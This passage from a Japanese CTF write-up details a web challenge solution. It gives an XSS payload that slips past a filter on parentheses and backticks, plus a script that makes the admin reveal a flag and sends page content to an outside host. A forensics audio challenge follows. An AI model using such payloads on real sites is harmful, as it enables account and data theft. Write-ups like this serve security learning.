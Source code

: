 `<script>` は `<img src=x onerror=alert(123)>` のような感じで代替できますが、関数呼び出しについては `(` と `)` だけならまだしもバックティック (テンプレート文字列) も禁止されるとできないように思えます。

`call function without parentheses javascript` みたいなキーワードでググってみると大変参考になりそうな [Stack Overflow の回答](https://stackoverflow.com/a/35949617)がヒットしました。これによれば、`'alert(123)' instanceof { [Symbol.hasInstance]: eval }` でカッコとバックティックなしに関数を呼び出すことができるようです。

ただ、そのままでは `instanceof` の左辺に禁止されている文字が含まれており不便です。なんとかならないか `[Symbol.hasInstance]:eval` でググると [최신 Ecma Script 기능을 활용한 XSS Filtering Bypass 및 원리 해설 :: Is Secure?](https://ar9ang3.tistory.com/34) という大変参考になる記事がヒットしました。`alert + ''` のように関数を文字列化し、これを切り取ってカッコを作っているようです。

これらを利用して `<img src=x onerror={a=id,_=alert+0,Array.prototype[Symbol.hasInstance]=eval,/b=atob/.source+_[14]+/a/.source+_[15]instanceof[],[b][0]instanceof[]} id=(Base64 エンコードした JavaScript コード)>` で `/admin_flag` による制約を回避して好きな JavaScript コードを実行できるようになりました。

admin に `window.onload=()=>{document.getElementsByClassName('flag-button')[0].click(); setTimeout(()=>{(new Image).src='https://(省略)?'+encodeURIComponent(document.getElementById('responseAlert').innerHTML)}, 1000);}` を実行させるとフラグが得られました。

```
tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}
```

## [Forensics 40] Rap God (172 solves)
> My rapper friend Big Y sent me his latest track but something sounded a little off about it. Help me find out if he was trying to tell me something with it. Submit your answer as tjctf{message}
> 
> 添付ファイル: BigYAudio.mp3

与えられた MP3 ファイルを再生すると、左からは[音楽](https://www.youtube.com/watch?v=y6120QOlsfU)が、右からはプツプツ音が聞こえてきました。

右から聞こえてくる音声を分離して [Spek](http://spek.cc/) というスペクトラムアナライザに投げると、以下のように絵文字が出てきました。

![えもじ](../images/2020-05-28_rapgod.png)
